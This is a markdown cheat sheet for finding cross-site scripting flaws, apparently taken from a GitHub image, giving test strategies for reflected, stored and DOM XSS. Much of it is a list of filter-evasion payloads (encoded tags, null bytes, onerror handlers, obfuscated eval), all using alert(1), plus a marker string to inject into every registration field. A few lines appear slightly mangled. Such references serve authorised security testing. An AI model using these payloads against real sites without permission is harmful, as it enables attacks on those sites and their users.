 # XSS Cheat Sheet

## Active XSS Hunting

### Attack Strategy

#### Reflected XSS
1. **Test Objectives:**
   - Identify where a value is stored into the DB and reflected back onto the page.
   - Assess the input they accept and try to bypass filters.

2. **Step 1 - Detect Input Vectors:**
   - Test all parameters for potential vulnerabilities.
   - Static code review can be effective for identifying input vectors.

3. **Step 2 - Analyse the Results:**
   - Depending on the context, analyze the results of the reflected XSS attack.
   - Check the impact of the attack vector.

#### Stored XSS
1. **Test Objectives:**
   - Identify where a value is reflected into the response.
   - Assess the input they accept and try to bypass filters.

2. **Step 1 - Detect Input Vectors:**
   - Test all parameters for potential vulnerabilities.
   - Static code review is effective for identifying input vectors.

3. **Step 2 - Analyse the Results:**
   - Depending on the context, analyze the results of the stored XSS attack.
   - Check the impact of the attack vector.

#### DOM XSS
1. **Test Objectives:**
   - Identify where a value is put into a DOM sink and reflected back onto the page.
   - Assess the input they accept and try to bypass filters.

2. **Step 1 - Detect Input Vectors:**
   - Test all parameters for potential vulnerabilities.
   - Static code review can help identify input vectors.

3. **Step 2 - Analyse the Results:**
   - Find DOM sinks by entering a random value and inspecting the developer console.
   - Check the impact of the attack vector.

## Passive XSS Hunting

### Attack Strategy

- Enter "'`><u>Rat was here<img src=x> into every field during registration.
- Inject into names and content of every object created.

### Filter Evasion Techniques

#### Basic Modifications
- Adding spaces, encoding tabs, newlines, and carriage returns.

#### Tags
```html
<script>alert(1)</script>
<script >alert(1)</script>
<script >alert(1)</script>
```

#### Encoded Tabs/Newlines/CR
```html
<script&#9>alert(1)</script>
<script&#10>alert(1)</script>
<script&#13>alert(1)</script>
```

#### Capital Letters
```html
ScRipT>alert(1)</sCriPt>
```

#### Adding Nullbytes
```html
%00script>alert(1)</script>
<script>al%00ert(1)</script>
```

#### Delimiters and Brackets
```html
<img onerror="alert(1)" src=x>
<img onerror='alert(1)' src=x>
```

#### URL Encoding
```html
<img onerror=&#34alert(1)&#34 src=x>
<img onerror=&#39alert(1)&#39 src=x>
```

#### Backticks
```html
<img onerror= alert(1) src=x>
<img onerror=&#96alert(1)&#96 src=x>
```

#### Double Use of Delimiters
```html
<<script>alert(1)//<</script>
```

#### Unknown Delimiters
```html
«input onsubmit=alert(1)»
```

#### Encoded Eval()
```html
<script>eval('a\u006cert(1)')</script>
<script>eval('al' + 'ert(1)')</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41)</script>
```

#### Using Filtered Words
```html
<scrscriptipt>alert(1)</scrscriptipt>
```

### Passive XSS Hunting
- Inject the payload into every field during registration and object creation.
- If a reflected value is encountered, determine the context.

## Notes
- When encountering a filtered script, consider variations or using different delimiters.
- Use the developer console for DOM XSS, and inspect source won't show DOM elements.

**Happy hacking!** Stay curious and secure! 🚀✨
